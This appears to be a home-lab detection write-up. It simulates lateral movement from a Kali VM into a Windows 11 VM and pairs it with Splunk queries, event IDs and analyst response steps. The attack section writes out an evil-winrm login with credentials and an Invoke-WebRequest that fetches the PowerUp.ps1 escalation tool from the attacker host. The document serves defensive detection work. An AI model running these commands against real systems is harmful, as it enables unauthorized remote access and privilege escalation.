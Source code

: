 

# Detection Usecase 2 : Lateral Movement via evil-winrm


# Scenario Summary: 
Monitoring a non-admin user tries to login to the system through evil-winrm(Kali Linux Tool - Subsitute of Psexec) and attempted to move laterally in the system by downloading the POwerUp.ps1 Tool.

# Attack Steps:

Here, Virtual Wiindows 11 is the victim where universal forwarder is running,  
and  Virtual Kali Linux is the attacker.
- The Attack was simulated by Kali Linux as follows:  

1) Attacker got a powershell prommpt by connecting to Victim Machine via Evil-winrm Tool:  
```
evil-winrm -i 192.168.0.101 -u sshuser -p pass
```  
2) After getting the powershell terminal , downloads the PowerUp.ps1 Tool in the System.  
```
Invoke-WebRequest -URI http://192.168.0.106:8888/Powerup.ps1 -Outfile C:\Users\sshuser\powerup.ps1
```

Tools Used:  
-Attacking Tool : evil-winrm.
-SIEM : Splunk Free  
-Log Source : Windows Security Event Logs, Sysmon


# Event ID / Data Source Mapping:

| Source                    | EventCode | Description                      |
|---------------------------|-----------|----------------------------------|
| WinEventLog : Security    | 4624      | Successfully Logged On           |
| WinEventLog : Security    | 5156      | A Connection was permitted       |
| WinEventLog : Sysmon      | 11        | File Creation                    |


# Detection Query / Logic:
```spl 
- Search : Login
index=* EventCode=4624 
```  
```spl 
- Search : Powershell Remoting 
index=* EventCode=5156 wsmprovhost.exe
```

# Sample Alert Screenshot

1) Attacker Login with WinRM:

![login](<logs/Screenshot 2025-05-29 094752.png>)  
![login0](<logs/Screenshot 2025-05-29 100116.png>)  
![login2](<logs/Screenshot 2025-05-29 094905.png>)

2) Attacker has downloaded a file PowerUp.ps1:  

![file](<logs/Screenshot 2025-05-29 094948.png>)

3) Alert

![alert](<logs/Screenshot 2025-05-29 102442.png>)

# Analyst Notes / Recommendations:

1) What Should an Analyst do ? 

-> Investigate the Source IP and user. Check if the account has access to login remotely.   
-> If unauthorized logged-in is perform then try to disable the account from the System.  
-> Correlate evemts related to the disabled account, find for any malicious downloads and delete all files.  
-> Make an alert if some non-admin tries to connect remotely to the system.  
-> Preserve the Evidence & Trigger the incident response.  
-> Report & Document.

# Detection Status

 -> Successfully Detected.  
 -> Alert Successfully.


